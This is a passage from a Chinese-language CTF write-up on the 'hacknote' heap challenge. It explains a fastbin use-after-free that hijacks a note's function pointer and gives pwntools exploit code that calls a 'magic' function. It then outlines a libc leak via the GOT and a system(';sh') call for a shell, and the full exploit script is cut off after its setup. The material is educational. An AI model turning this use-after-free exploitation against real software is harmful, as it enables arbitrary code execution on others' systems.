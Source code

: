 然后再malloc一个size为0x8的note，就会将两个size为0x8的chunk从fastbin上取下来，而chunk0则作为index2的content，也就是index0的note。所以我们就可以通过向index2的content中写来修改index0的note，也就可以劫持函数指针了。

利用代码如下：

```python
magic = 0x8048986
add("a" * 0x10)
add("b" * 0x10)
del_note(0)
del_note(1)

payload = p32(magic) + p32(0xdeadbeef)
add(payload)
print_note(0)
```

### 提高 ###

我们给该题加大难度，假设不存在magic函数，或者说我们想要直接RCE执行任意指令，那应该怎么办呢？

第一步应该是leak libc，我们可以利用和上述类似的思路，将函数指针覆盖为原来的print_note_content函数，将content覆盖为got表的指针，从而leak出got表。

第二步是将函数指针覆盖为system，将content覆盖为/bin/sh，然后getshell。

这里有两个难点：

- 因为这道菜单题没有edit函数，所以我们可以直接free掉那两个0x8的chunk然后在重新申请的时候布置堆块内容即可。
- 如果直接输入/bin/sh，由于前面有一些杂乱的数据，会使得shell命令执行失败。我们可以用"||"或者";"截断，然后直接用sh即可。因为有些环境中，/bin本来就在环境变量中，所以直接用sh也可以。这里如果用`;/bin/sh\x00`，就会超过8个byte，所以我们只能用`;sh\x00`碰碰运气。幸运的是，我们成功了。

完整exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./hacknote")
p = process("./hacknote")

def add(content):
	p.recvuntil("choice :")
	p.sendline("1")
	p.recvuntil("size :")
	p.sendline(str(len(content)))
	p.recvuntil("Content :")
	p.send(content)

def del_note(index):
	p.recvuntil("choice :")
	p.sendline("2")
	p.recvuntil("Index :")
	p.sendline(str(index))

def print_note(index):
	p.recvuntil("choice :")
	p.sendline("3")
	p.recvuntil("Index :")
	p.sendline(str(index))

print_ = 0x804865b
got = elf.got['__libc_start_main']
add("a" * 0x10)
add("b" * 0x10)
del_note(0)
del_note(1)
```